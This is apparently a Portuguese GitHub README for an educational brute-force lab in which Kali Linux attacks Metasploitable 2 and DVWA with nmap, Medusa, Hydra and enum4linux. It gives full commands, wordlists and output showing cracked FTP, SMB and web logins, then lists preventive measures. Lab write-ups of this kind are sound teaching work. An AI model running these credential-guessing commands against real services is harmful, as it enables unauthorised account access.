# Brute Force With Medusa

Este projeto tem como objetivo demonstrar, de forma prática e controlada, como funcionam ataques de força bruta (*Brute Force*) utilizando Kali Linux com Medusa e Hydra.

Foram utilizados ambientes vulneráveis para simular tentativas de autenticação em diferentes serviços, permitindo compreender os riscos relacionados ao uso de senhas fracas, identificar possíveis vulnerabilidades e estudar medidas de prevenção contra acessos não autorizados.

## Ferramentas utilizadas

| Ferramenta | Utilidade |
|---|---|
| [VirtualBox](https://www.virtualbox.org/) | Software utilizado para executar e gerenciar as máquinas virtuais. |
| [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) | Sistema operacional utilizado para executar ferramentas de auditoria e testes de segurança. |
| [Metasploitable 2](https://sourceforge.net/projects/metasploitable/) | Máquina virtual intencionalmente vulnerável, utilizada para simular serviços que podem ser explorados. |
| [DVWA](https://github.com/digininja/DVWA) | Aplicação web vulnerável utilizada para estudar falhas de segurança em formulários de autenticação. |
| [Medusa](https://www.kali.org/tools/medusa/) | Ferramenta utilizada para realizar testes de autenticação por meio de tentativas controladas de senhas. |
| [Hydra](https://www.kali.org/tools/hydra/) | Ferramenta utilizada como alternativa para testes de autenticação em formulários web com redirecionamento. |
| [Enum4linux](https://www.kali.org/tools/enum4linux/) | Ferramenta de enumeração utilizada para coletar informações de serviços SMB, como usuários, compartilhamentos, grupos e políticas de senha. |
| [Nmap](https://nmap.org/) | Ferramenta de reconhecimento de rede utilizada para identificar portas abertas, serviços ativos e suas versões no sistema-alvo. |
---

## 1. Configuração do ambiente

Para a realização dos testes, foi criado um laboratório virtual utilizando o VirtualBox, composto por duas máquinas:

- **Kali Linux:** máquina utilizada para executar os testes de segurança.
- **Metasploitable 2:** máquina vulnerável utilizada como ambiente de testes.

A comunicação entre as máquinas foi configurada por meio de uma rede Host-Only, permitindo a interação entre elas em um ambiente isolado.

### 1.1. Máquinas virtuais



### 1.2. Configuração de rede



### 1.3. Topologia do laboratório

A estrutura do laboratório foi organizada utilizando duas máquinas virtuais conectadas por uma rede Host-Only.




### 1.4. Endereçamento IP

| Máquina | Endereço IP | Função |
|---|---|---|
| Kali Linux | (192.168.56.101) | Máquina atacante |
| Metasploitable 2 | 192.168.56.102 | Máquina alvo |

---

## 2. Reconhecimento e identificação de serviços

Antes de iniciar os testes de autenticação, foi realizada uma etapa de reconhecimento para verificar a conectividade entre as máquinas e identificar os serviços disponíveis no ambiente vulnerável.

### 2.1. Verificação de conectividade

Foi utilizado o comando `ping` para verificar se a máquina alvo estava acessível pela rede.

```bash
ping -c 3 192.168.56.102
```



### 2.2. Identificação de serviços com Nmap

Em seguida, foi utilizado o Nmap para identificar os serviços e suas respectivas versões nas principais portas do alvo.

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.102
```

O parâmetro `-sV` permite identificar informações sobre as versões dos serviços encontrados.

As portas analisadas foram:

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:4F:AD:B0 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel




---

## 3. Teste de autenticação FTP

Nesta etapa, foi realizado um teste controlado de autenticação no serviço FTP utilizando a ferramenta Medusa.

### 3.1. Criação das wordlists

Foram criados dois arquivos contendo usuários e senhas de teste.

```bash
echo -e 'user\nfsadmin\nadmin\nroot' > users.txt
```
**users.txt**
```text
user
msfadmin
admin
root
```

```bash
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```
**pass.txt**
```text
123456
password
qwerty
msfadmin
```



### 3.2. Execução do Medusa

O teste foi realizado utilizando o módulo FTP da ferramenta Medusa.

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

**Parâmetros utilizados:**

| Parâmetro | Função |
|---|---|
| `-h` | Endereço IP do alvo |
| `-U` | Arquivo contendo usuários |
| `-P` | Arquivo contendo senhas |
| `-M ftp` | Seleciona o módulo FTP |
| `-t 6` | Define até 6 tarefas paralelas |

### 3.3. Resultados

Os resultados obtidos durante a execução foram analisados para verificar possíveis combinações válidas de autenticação e encontrou:



```text
2026-11-17 13:35:39 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

---

## 4. Teste de autenticação HTTP - DVWA

Nesta etapa, foi utilizado o módulo HTTP do Medusa para simular tentativas de autenticação no formulário de login da aplicação DVWA.

### 4.1. Aplicação DVWA

O DVWA foi utilizado como ambiente vulnerável para demonstrar os riscos relacionados à ausência de mecanismos adequados de proteção em formulários de autenticação.



### 4.2. Verificando variáveis da requisição

Precisamos verificar através do DevTools o payload com nome das variaveis dos campos do formulário que são responsáveis pelo nome de usuário e senha.



Identificados como: username e password

### 4.3. Tentativa com Medusa (módulo web-form)

Foi utilizado o seguinte comando para realizar os testes no formulário de autenticação:

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M web-form \
-m FORM:'dvwa/login.php' \
-m FORM-DATA:'POST?username=^USER^&password=^PASS^&Login=Login' \
-m DENY-SIGNAL:'Login failed' \
-t 6
```

**Parâmetros utilizados:**

| Parâmetro | Função |
|---|---|
| `-h` | Endereço IP da aplicação |
| `-U` | Arquivo contendo usuários |
| `-P` | Arquivo contendo senhas |
| `-M web-form` | Seleciona o módulo HTTP |
| `FORM` | Define a página de autenticação |
| `FORM-DATA` | Define os campos enviados pelo formulário |
| `^USER^` | Marcador substituído pelo usuário da wordlist |
| `^PASS^` | Marcador substituído pela senha da wordlist |
| `DENY-SIGNAL` | Texto utilizado para identificar uma resposta de falha |
| `-t 6` | Define até 6 tarefas paralelas |

Os resultados foram analisados para verificar o comportamento do formulário diante das tentativas de autenticação.



```text
ERROR: The answer was NOT successfully received, understood, and accepted while trying msfadmin password: error code 302
O Medusa retornou erro 302 (redirecionamento HTTP) em todas as tentativas. Isso ocorre porque o módulo web-form do Medusa não lida bem com respostas de redirecionamento, comuns em aplicações web após tentativas de login. Como o DVWA redireciona a requisição (em vez de retornar uma página com a mensagem de falha), o Medusa não consegue avaliar a resposta e aborta o teste.
```

### 4.4. Alternativa com Hydra (módulo http-post-form)
Como o Medusa não se mostrou adequado para este cenário, optou-se por utilizar o Hydra, que possui melhor suporte a formulários web com redirecionamentos e sessões.

```bash
hydra -L users.txt -P pass.txt 192.168.56.102 http-post-form \
"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
Parâmetros utilizados:
```

**Parâmetros utilizados:**

| Parâmetro | Função |
|---|---|
| `-L` | Arquivo contendo usuários |
| `-P` | Arquivo contendo senhas |
| `http-post-form` | Módulo de formulário HTTP POST |
| `:username=^USER^&password=^PASS^&Login=Login` | Corpo da requisição POST |
| `F=Login failed` | Texto que identifica uma resposta de falha |



Resultado da execução:
```text
[80][http-post-form] host: 192.168.56.102   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-17 14:50:59
```

### 4.5. Considerações sobre a escolha da ferramenta
A limitação do Medusa com respostas 302 é um comportamento conhecido e não indica erro na configuração do ambiente ou das wordlists. A adoção do Hydra para este cenário específico está alinhada com a proposta flexível do desafio, que incentiva a experimentação de outras ferramentas. O episódio reforça a importância de conhecer as limitações de cada ferramenta e saber escolher a mais adequada para cada tipo de serviço.

---

## 5. Enumeração e testes de autenticação SMB

Nesta etapa, foram utilizadas ferramentas de enumeração para coletar informações disponibilizadas pelo serviço SMB.

### 5.1. Enumeração com Enum4linux

Foi utilizado o Enum4linux para coletar informações sobre o serviço SMB, incluindo possíveis usuários e compartilhamentos disponíveis.

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
```

O resultado foi armazenado no arquivo `enum4_output.txt` para análise posterior.



Resultado da execução:
[Resultado Enum4linux](logs/enum4_output.txt)


### 5.2. Criação das wordlists

Foram criadas listas de usuários e senhas para os testes controlados.

```bash
echo -e " user\nmsfadmin\nservice" > smb_users.txt
```
**smb_users.txt**
```text
user
msfadmin
service
```

```bash
echo -e "password\n123456\nWelcome123\msfadmin" > senhas_spray.txt
```
**senhas_spray.txt**
```text
password
123456
Welcome123
msfadmin
```

### 5.3. Teste de autenticação SMB

Foi utilizado o módulo SMBNT do Medusa para avaliar a resistência da autenticação SMB no ambiente de laboratório.

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```
Os resultados obtidos durante a execução foram analisados para verificar possíveis combinações válidas de autenticação e encontrou:



```text
2026-11-17 15:08:26 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

### 5.4. Verificação de compartilhamentos

Por fim, foi utilizado o cliente SMB para consultar os compartilhamentos disponibilizados pelo servidor.

```bash
smbclient -L //192.168.56.102 -U msfadmin
```

### 5.5. Resultados

Os resultados dos testes foram analisados para identificar possíveis falhas de autenticação e compreender os riscos associados à exposição de serviços SMB.



---

## 6. Medidas de prevenção

A partir dos testes realizados, foram identificadas algumas medidas que podem contribuir para a proteção dos serviços de autenticação:

- Utilização de senhas fortes e exclusivas.
- Implementação de autenticação multifator (MFA).
- Limitação de tentativas consecutivas de autenticação.
- Monitoramento de atividades suspeitas nos serviços.
- Restrição de acesso aos serviços FTP e SMB.
- Implementação de mecanismos de proteção contra automação em formulários web.
- Registro e análise de tentativas de acesso malsucedidas.
- Utilização de protocolos seguros para transmissão de credenciais.

---

## 7. Conclusão

A realização deste laboratório permitiu compreender, na prática, como funcionam os ataques de força bruta em diferentes serviços e quais riscos podem estar associados a mecanismos de autenticação vulneráveis.

A utilização do VirtualBox com Kali Linux e Metasploitable 2 utilizando DVWA, Medusa, Hydra, Nmap e Enum4linux possibilitou explorar diferentes cenários de segurança, realizar testes controlados e analisar os mecanismos de autenticação presentes no ambiente.

Além da execução dos testes, o projeto reforçou a importância de políticas de senhas fortes, monitoramento de acessos e implementação de mecanismos de proteção contra tentativas de autenticação não autorizadas.

---

## Aviso

Este projeto foi desenvolvido exclusivamente para fins educacionais, utilizando ambientes virtuais controlados e intencionalmente vulneráveis.

Todos os testes foram realizados em laboratório próprio, sem autorização ou intenção de acessar sistemas de terceiros.
